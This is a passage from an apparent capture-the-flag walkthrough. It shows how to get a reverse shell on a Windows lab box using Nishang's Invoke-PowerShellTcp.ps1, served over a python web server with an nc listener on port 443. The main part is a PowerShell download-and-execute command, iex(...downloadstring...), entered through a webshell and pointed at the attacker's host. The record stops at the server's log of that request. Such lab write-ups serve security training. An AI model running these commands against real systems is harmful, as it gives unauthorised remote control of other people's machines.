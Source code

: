 I’ll clone it to my local system:

```

root@kali:/opt# git clone https://github.com/samratashok/nishang.git
Cloning into 'nishang'...
remote: Enumerating objects: 1660, done.
remote: Total 1660 (delta 0), reused 0 (delta 0), pack-reused 1660
Receiving objects: 100% (1660/1660), 6.62 MiB | 23.70 MiB/s, done.
Resolving deltas: 100% (1040/1040), done.

```

Next I’ll grab a copy of `InvokePowerShellTcp.ps1` from `/opt/nishang/Shells/`. I’ll place it in my smb directory (even though I’m going to use http to get it). I’ll go to that directory, and open it in a text editor. I’ll find the example invocation for the reverse shell:

```

.PARAMETER Port
The port to connect to when using the -Reverse switch. When using -Bind it is the port on which this script listens.

.EXAMPLE
PS > Invoke-PowerShellTcp -Reverse -IPAddress 192.168.254.226 -Port 4444

```

I’ll copy that line, and go to the bottom of the file, and paste it in, and modify it to match my IP/port:

```

Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.14 -Port 443

```

This will make it so that not only does the module load, but then the shell is called to give me a callback.

Finally, inside that directory I’ll start my webserver using `python`, with `python3 -m http.server 80`, and start my listener with `nc -lnvp 443`.

Now I’m ready to get a shell. In my webshell, I’ll enter the following:

```

powershell iex(new-object net.webclient).downloadstring('http://10.10.14.14/Invoke-PowerShellTcp.ps1')

```

This will create a webclient object, and use the download string method to get the text that is returned from the given url. That text is passed into `iex`, which runs it.

The webserver gets a request for `Invoke-PowerShellTcp.ps1`:

```

Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.5 - - [22/Feb/2019 16:28:17] "GET /Invoke-PowerShellTcp.ps1 HTTP/1.1" 200 -

```
